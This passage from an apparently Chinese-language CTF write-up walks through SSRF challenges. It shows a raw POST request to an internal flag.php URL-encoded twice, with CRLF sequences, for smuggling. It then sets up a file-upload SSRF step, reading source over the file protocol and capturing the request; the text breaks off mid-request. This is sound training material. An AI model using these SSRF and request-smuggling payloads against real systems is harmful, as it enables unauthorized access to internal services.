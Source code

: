 key=882ba9ee8557373dce7b058bb80ed9d6</code></pre>

将上面的POST数据包先进行1次URL编码,**URL编码的次数主要取决于你请求的次数**，然后换行符是`%0d%0a`，把%0A替换成%0d%0A，结尾补上%0d%0A。

```
POST%20/flag.php%20HTTP/1.1%0d%0AHost:%20127.0.0.1:80%0d%0AContent-Type:%20application/x-www-form-urlencoded%0d%0AContent-Length:%2036%0d%0A%0d%0Akey=882ba9ee8557373dce7b058bb80ed9d6%0d%0A
```

再进行一次URL编码

```
POST%2520/flag.php%2520HTTP/1.1%250d%250AHost:%2520127.0.0.1:80%250d%250AContent-Type:%2520application/x-www-form-urlencoded%250d%250AContent-Length:%252036%250d%250A%250d%250Akey=882ba9ee8557373dce7b058bb80ed9d6%250d%250A
```

最后的利用curl<figure class="wp-block-image size-full is-resized">

<img loading="lazy" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-212.png" alt="" class="wp-image-3164" /></figure> 

补充知识：

<pre class="wp-block-code"><code>-v     详细（在事件循环中打印错误/警告）
-vv    非常详细（也打印客户端命令/ reponses ）
-vvv   非常详细（也打印内部状态转换）</code></pre>

## 0x05 上传文件

题目：这次需要上传一个文件到flag.php了.祝你好运。

构造`url?url=http://127.0.0.1/flag.php`<figure class="wp-block-image size-full">

<img loading="lazy" width="209" height="73" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-213.png" alt="" class="wp-image-3168" /> </figure> 

再利用file协议读一下源代码。<figure class="wp-block-image size-full is-resized">

<img loading="lazy" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/08/图片-214.png" alt="" class="wp-image-3169" width="457" height="245" /> </figure> 

编辑下html，然后上传一个非空文件。

<pre class="wp-block-code"><code>&lt;form action="/flag.php" method="post" enctype="multipart/form-data"&gt;
    &lt;input type="file" name="file"&gt;
    &lt;input type="submit" value="上传"&gt;
&lt;/form&gt;</code></pre>

利用bp抓包，出现Just View From 127.0.0.1。

<pre class="wp-block-code"><code>POST /flag.php HTTP/1.1
Host: challenge-839040a464e49915.sandbox.ctfhub.com:10800
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------41538798404609826121560554440
Content-Length: 218
Origin: http://challenge-839040a464e49915.sandbox.ctfhub.com:10800
Connection: keep-alive
Referer: http://challenge-839040a464e49915.sandbox.ctfhub.com:10800/?url=http://127.0.0.1/flag.php
Upgrade-Insecure-Requests: 1
